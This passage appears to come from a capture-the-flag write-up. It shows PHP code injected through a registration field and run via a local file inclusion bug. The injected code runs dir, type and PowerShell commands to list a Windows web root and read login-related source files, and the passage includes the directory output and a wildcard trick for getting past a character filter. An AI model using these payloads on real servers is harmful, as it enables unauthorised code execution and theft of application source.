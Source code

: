 ```

a<?php echo `dir \\inetpub\\wwwroot\\user` ?>b

```

Now using the LFI returned:

```

 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\inetpub\wwwroot\user

10/01/2019  08:44 AM    <DIR>          .
10/01/2019  08:44 AM    <DIR>          ..
04/11/2019  05:15 PM               108 auth.php
04/11/2019  05:52 AM    <DIR>          css
04/11/2019  10:51 AM               337 db.php
04/11/2019  05:23 AM    <DIR>          fonts
04/11/2019  05:23 AM    <DIR>          images
04/11/2019  06:18 AM             4,639 index.php
04/11/2019  05:23 AM    <DIR>          js
04/11/2019  06:10 AM             6,463 login.php
04/08/2019  11:04 PM               148 logout.php
10/01/2019  08:42 AM             7,192 registration.php
08/14/2019  10:35 PM             7,004 registration_old123123123847.php
04/11/2019  05:23 AM    <DIR>          vendor
               7 File(s)         25,891 bytes
               7 Dir(s)  16,987,619,328 bytes free

```

I then tried to get the `registration.php` source, but it seems the `.` breaks things when I tried:

```

a<?php echo `type \\inetpub\\wwwroot\\user\\registration.php` ?>b

```

But, I know that `?` isn’t blocked, and that’s a single character wild card. So I register as:

```

a<?php echo `type \\inetpub\\wwwroot\\user\\registration?php` ?>b

```

Something about `?` wildcards are funky. I couldn’t get that to work. So eventually I registered:

```

a<?php echo `powershell cat \\inetpub\\wwwroot\\user\\registration*php` ?>b

```

